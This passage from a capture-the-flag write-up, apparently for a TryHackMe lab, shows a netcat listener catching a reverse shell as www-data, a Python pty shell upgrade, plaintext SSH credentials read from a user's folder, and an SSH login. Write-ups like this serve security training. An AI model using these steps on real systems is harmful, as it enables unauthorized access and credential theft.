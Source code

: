 ![Untitled](https://raw.githubusercontent.com/SimoneFelici/Expose-writeup-THM/main/4ca36771-eb73-4388-a0ae-5541d4fc580b_Export-7a75593e-3439-4e58-bca6-e041ad0479ff/Expose%208862d9d2d64c447b9983bf0fafb7c8f6/Untitled%207.png)

And we can see that it worked:

![Untitled](https://raw.githubusercontent.com/SimoneFelici/Expose-writeup-THM/main/4ca36771-eb73-4388-a0ae-5541d4fc580b_Export-7a75593e-3439-4e58-bca6-e041ad0479ff/Expose%208862d9d2d64c447b9983bf0fafb7c8f6/Untitled%208.png)

Before opening the file I started a listener using nc

And we are now in the machine with the www-data account:

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.65.91] from (UNKNOWN) [10.10.229.207] 56016
Linux ip-10-10-229-207 5.15.0-1039-aws #44~20.04.1-Ubuntu SMP Thu Jun 22 12:21:12 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 14:43:16 up  1:46,  0 users,  load average: 0.01, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (782): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-10-229-207:/$
```

We also have python so I am going to upgrade my shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

And after entering the zeamkish folder I noticed that he has the credentials for the ssh in plaintext:

```bash
ls -la
total 36
drwxr-xr-x 3 zeamkish zeamkish 4096 Jul  6  2023 .
drwxr-xr-x 4 root     root     4096 Jun 30  2023 ..
-rw-rw-r-- 1 zeamkish zeamkish    5 Jul  6  2023 .bash_history
-rw-r--r-- 1 zeamkish zeamkish  220 Jun  8  2023 .bash_logout
-rw-r--r-- 1 zeamkish zeamkish 3771 Jun  8  2023 .bashrc
drwx------ 2 zeamkish zeamkish 4096 Jun  8  2023 .cache
-rw-r--r-- 1 zeamkish zeamkish  807 Jun  8  2023 .profile
-rw-r----- 1 zeamkish zeamkish   27 Jun  8  2023 flag.txt
-rw-rw-r-- 1 root     zeamkish   34 Jun 11  2023 ssh_creds.txt
$ cat ssh_creds.txt
cat ssh_creds.txt
SSH CREDS
zeamkish
<redacted>
```

So now we are in as zeamkish and we can read the flag:

```bash
ssh zeamkish@10.10.229.207

zeamkish@10.10.229.207's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-1039-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jan 28 14:48:35 UTC 2024

  System load:  0.0               Processes:             130
  Usage of /:   7.5% of 58.09GB   Users logged in:       0
  Memory usage: 21%               IPv4 address for eth0: 10.10.229.207
```